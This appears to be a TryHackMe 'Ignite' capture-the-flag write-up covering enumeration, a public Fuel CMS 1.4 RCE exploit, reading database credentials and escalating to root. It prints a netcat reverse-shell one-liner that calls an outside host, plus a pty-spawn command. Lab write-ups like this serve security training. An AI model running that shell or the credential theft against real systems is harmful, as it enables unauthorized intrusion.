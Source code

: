 # Ignite CTF Tryhackme

## Step 1. Enumerate with Nmap

To begin my reconnaissance on the target machine, I started by checking for any open ports using Nmap. 
Specifically, I ran the following command: `nmap -sV <MACHINE_IP>` This scan helped me identify any active services 
running on the machine and their respective versions. Below are the results of the scan:

![Screenshot 2025-03-09 212845](https://github.com/user-attachments/assets/308262d2-5667-462a-99cd-ccc9326b9f74)

From the output, it appears that only port 80 (HTTP) is open, which means we can rule out a wide range of potential 
exploits related to other services, such as SSH, FTP, or SMB. Since HTTP is accessible, our next logical step is to explore the 
web server to see if we can uncover any hidden directories or files that might contain sensitive information or vulnerabilities.

To accomplish this, I used Gobuster, a tool designed for brute-forcing directories and files on web servers. Nothing that interesting was found as shown below:
![Screenshot 2025-03-09 213549](https://github.com/user-attachments/assets/2ca2f0d1-10c3-47e2-aee8-d4687625379d)

Finally going to the IP itself brought me to a page that had said "Welcome to Fuel CMS Version 1.4." This brings us to the next step.

## Step 2. Finding and using an Exploit

Fuel CMS V1.4 gave a huge clue to what the vulnerability we actually needed to exploit was, I did some googling around and found a Fuel CMS RCE (Remote Code Execution)
exploit on github I could use to gain access to the server. 

Access to the exploit is here -> https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE

After using Git Clone I was able to use the console.py file provided by the creator of this exploit which immediately launched a reverse shell onto the webserver
(No wonder this has a CVSS of 9.8)

![Screenshot 2025-03-09 214604](https://github.com/user-attachments/assets/e89261c3-1605-47b1-bb57-3faa9ed13548)


## Step 3. User Flag

Finding the user flag was pretty simple, the harder part is going to be getting the root flag. I did `locate userflag.txt` and a few other variations until I did
`locate flag.txt` when I finally found a match in /home/www-data/flag.txt. In the shell, you can type download in the directory you want and it will download that directory 
to the host system. From there I was able to read flag.txt

![Screenshot 2025-03-10 202056](https://github.com/user-attachments/assets/efff0089-6fa2-4b9c-a611-06547d104d42)

## Step 4. Escalate Privlages. 

Doing a quick search of Fuel CMS I came across the github and was able to find the file path to databse.php, which could potentially hold some interesting data. 

I downloaded /var/www/html/fuel/application/config/database.php onto my linux machine to further investigate and it looks like we found a username and a
password to the server

![Screenshot 2025-03-10 202814](https://github.com/user-attachments/assets/88b9def9-145c-4814-8d18-81874627730a)

I had a little bit of a tough time getting to switch users. Apparently, I didn't actually have a terminal. To fix this. all
I had to do was just start a reverse shell using  
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f` and also use a netcat listener on the host system to get a terminal.

Now that I have terminal on the web server I did `python -c 'import pty;pty.spawn("/bin/bash")'`. I did this so I could switch to the root user using su root with the
password of "mememe" we found earlier in database.php.


![Screenshot 2025-03-10 204940](https://github.com/user-attachments/assets/5d646308-77f2-4b97-b174-d32b8a724c4f)

Now that I became the root user I simply changed directories into root and then read root.txt! 

